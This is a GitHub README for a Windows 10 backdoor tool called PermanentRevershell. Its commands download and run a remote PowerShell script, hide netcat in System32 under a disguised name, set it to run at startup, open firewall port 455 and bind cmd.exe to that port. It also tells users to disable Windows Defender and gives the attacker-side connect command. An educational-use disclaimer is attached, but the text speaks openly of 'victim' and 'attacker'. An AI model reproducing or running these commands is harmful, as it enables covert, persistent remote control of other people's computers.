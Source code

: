 # PermanentRevershell-win10backdoor
 "PermanentRevershell: A potent Windows 10 backdoor providing persistent access and full system control. Explore its capabilities today!"
![image](https://github.com/alariordas/PermanentRevershell-win10backdoor/assets/80034759/82e62466-3dff-4a75-b90d-51602e27e753)

**Disclaimer: Use Responsibly**

This tool is provided for educational and legitimate security testing purposes only. The author (alariordas) does not condone or endorse any unauthorized or malicious use of this tool. Any actions and activities carried out using this tool are the sole responsibility of the user.

By downloading, using, or distributing this tool, you acknowledge and agree to use it in compliance with all applicable laws and ethical guidelines. Improper or unlawful use of this tool is strictly prohibited, and the author will not be held responsible for any consequences arising from such actions.

Please exercise caution and always obtain proper authorization before using this tool on systems or networks that you do not own or have explicit permission to test.

Use this tool responsibly and for legitimate purposes only.

**Note:** It is important to be aware of and comply with the laws and regulations governing cybersecurity and ethical hacking activities in your jurisdiction. Unauthorized access or malicious activities may result in legal consequences.





# Netcat Auto-Installer for Windows

This script automates the installation of Netcat on Windows systems. Netcat is a versatile networking utility that can be used for various purposes, including network testing and security assessments. Please use this script responsibly and only on systems and networks for which you have proper authorization.

## Features

- Downloads and extracts the Netcat ZIP file to a temporary location.
- Moves the `nc.exe` binary to the `System32` directory, enhancing its stealth.
- Sets up Netcat to run at system startup for persistent access.
- Enables a firewall rule to allow incoming connections on port 455.
- Removes temporary files after successful installation

## Prerequisites

Before using this script, ensure that you have:

- Windows operating system.
- Administrator privileges.
- Windows Defender desactivated during the execution of the script
- PowerShell enabled for script execution. You can do this by running:

```powershell
Set-ExecutionPolicy Unrestricted -Scope CurrentUser -Force
```
Or Press `Windows + R` and type:
```powershell
powershell -nop -ep bypass -c IEX(IWR Set-ExecutionPolicy Unrestricted -Scope CurrentUser -Force -UseBasicParsing);
````

## Usage

### Automated Installation

1. Press `Windows + R` to open the Run dialog.
2. Type ```powershell.exe  IEX(IWR https://raw.githubusercontent.com/alariordas/PermanentRevershell-win10backdoor/main/ncinstaller.ps1 -UseBasicParsing);``` and press `Ctrl + Enter` to open PowerShell with Administrator privileges.

```powershell
powershell.exe  IEX(IWR https://raw.githubusercontent.com/alariordas/PersistentReverseShell-Win10Backdoor/main/ncinstaller.ps1 -UseBasicParsing);
```

The script will be executed automatically. However, please note that it may not work on all systems. If you encounter issues, you may need to adapt the script to the target system's properties.
This will start the process if in the victim side it's not working 
```powershell
powershell -ExecutionPolicy Bypass -Command "Start-Process 'C:\Windows\System32\msnmsgr.exe' -ArgumentList '-Ldp 455 -e cmd.exe' -NoNewWindow"
```

### In the Attacker side
Execute this command in the terminal, replace `explample.com` with the victim ip or domain
```cmd
netcat -z -v example.com 455
```
